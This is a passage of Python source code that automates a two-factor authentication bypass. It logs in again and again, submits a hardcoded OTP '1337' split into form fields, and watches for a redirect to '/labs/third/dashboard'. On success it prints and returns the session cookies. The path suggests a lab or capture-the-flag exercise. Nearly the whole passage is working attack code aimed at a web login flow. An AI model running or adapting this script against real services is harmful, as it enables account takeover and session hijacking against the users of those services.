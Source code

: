 ```python
}

# Function to check if the response contains the login page
def is_login_successful(response):
    return "User Verification" in response.text and response.status_code == 200

# Function to handle the login process
def login(session):
    response = session.post(login_url, data=credentials, headers=headers)
    return response
  
# Function to handle the 2FA process
def submit_otp(session, otp):
    # Split the OTP into individual digits
    otp_data = {
        'code-1': otp[0],
        'code-2': otp[1],
        'code-3': otp[2],
        'code-4': otp[3]
    }
    
    response = session.post(otp_url, data=otp_data, headers=headers, allow_redirects=False)  # Disable auto redirects
    print(f"DEBUG: OTP submission response status code: {response.status_code}")
    
    return response

# Function to check if the response contains the login page
def is_login_page(response):
    return "Sign in to your account" in response.text or "Login" in response.text

# Function to attempt login and submit the hardcoded OTP until success
def try_until_success():
    otp_str = '1337'  # Hardcoded OTP

    while True:  # Keep trying until success
        session = requests.Session()  # Create a new session object for each attempt
        login_response = login(session)  # Log in before each OTP attempt
        
        if is_login_successful(login_response):
            print("Logged in successfully.")
        else:
            print("Failed to log in.")
            continue

        print(f"Trying OTP: {otp_str}")

        response = submit_otp(session, otp_str)

        # Check if the response is the login page (unsuccessful OTP)
        if is_login_page(response):
            print(f"Unsuccessful OTP attempt, redirected to login page. OTP: {otp_str}")
            continue  # Retry login and OTP submission

        # Check if the response is a redirect (status code 302)
        if response.status_code == 302:
            location_header = response.headers.get('Location', '')
            print(f"Session cookies: {session.cookies.get_dict()}")

            # Check if it successfully bypassed 2FA and landed on the dashboard
            if location_header == '/labs/third/dashboard':
                print(f"Successfully bypassed 2FA with OTP: {otp_str}")
                return session.cookies.get_dict()  # Return session cookies after successful bypass
```